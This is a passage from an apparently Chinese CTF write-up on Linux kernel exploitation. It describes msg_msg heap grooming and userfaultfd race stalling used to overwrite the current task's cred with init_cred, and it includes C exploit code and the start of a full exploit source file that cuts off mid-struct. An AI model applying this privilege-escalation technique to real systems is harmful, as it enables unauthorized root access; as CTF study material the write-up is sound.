 堆布局如下：

![https://syst3mfailure.io/assets/images/wall_of_perdition/9.png](https://gitee.com/slientNoir/image-bed/raw/master/image-bed/2022-03-18-6ad8a7575a4daad28a9d7d65e34a70ea-58ca39.png)

接着，不释放userfault handler1。而是申请一个新的消息队列QID#3。并创建一个0xfd8+0x30的消息。此时，QID#2的segment被分配给了新的msg_msg结构。同样，我们在QID#3拷贝消息数据时，使用userfaultfd卡住。堆布局如下：

![https://syst3mfailure.io/assets/images/wall_of_perdition/10.png](https://gitee.com/slientNoir/image-bed/raw/master/image-bed/2022-03-18-2f5cfb64523b7c423f80095d97fdfc92-d5572c.png)

在userfaulr handler2中，释放userfault handler1。使得QID#3的msg_msg结构的next被修改为目标地址。即当前进程的`&task_struct→cred - 8 `

堆布局如下：

![https://syst3mfailure.io/assets/images/wall_of_perdition/11.png](https://gitee.com/slientNoir/image-bed/raw/master/image-bed/2022-03-18-f383f31c66e169b1e9fea090cbdd71b4-5e99d6.png)

继续处理userfault 2，使用`init_cred`覆写`cred`和`read_cred`即可提权。

```c
    printf("[+] user 2 page fault: %p\n", (void *)uf_msg.arg.pagefault.address);
    printf("[*] Release uffd 1\n");
    struct uffdio_copy uc;

    bzero(&uc, sizeof(struct uffdio_copy));
    // use uffdio_copy to write request's message
    uc.src = (unsigned long)msg_buf;
    uc.len = PAGE_SIZE;
    uc.dst = (unsigned long)0x1338000 & ~(PAGE_SIZE - 1);
    uc.mode = 0;
    uc.copy = 0;
    if (ioctl(u1, UFFDIO_COPY, &uc) == -1) {
      die("[!] Failed to uffdio_copy");
    }

    char *payload = calloc(1, 0x2000);
    *((uint64_t *)(payload + 0xfd0 - 8)) = init_cred;
    *((uint64_t *)(payload + 0xfd0)) = init_cred;
    *((uint64_t *)(payload + 0xfd0 + 8)) = init_cred;
    uffd_copy(uffd, payload, &uf_msg);
```

## EXP

```c
#include "./exploit.h"
#include <stdint.h>

#define ADD_RULE 0x1337babe
#define DELETE_RULE 0xdeadbabe
#define EDIT_RULE 0x1337beef
#define SHOW_RULE 0xdeadbeef
#define DUP_RULE 0xbaad5aad

#define INBOUND 0
#define OUTBOUND 1
#define SKIP -1

#define DESC_MAX 0x800

typedef struct {
  char iface[16];
  char name[16];
  char ip[16];
  char netmask[16];
  uint8_t idx;
  uint8_t type;
```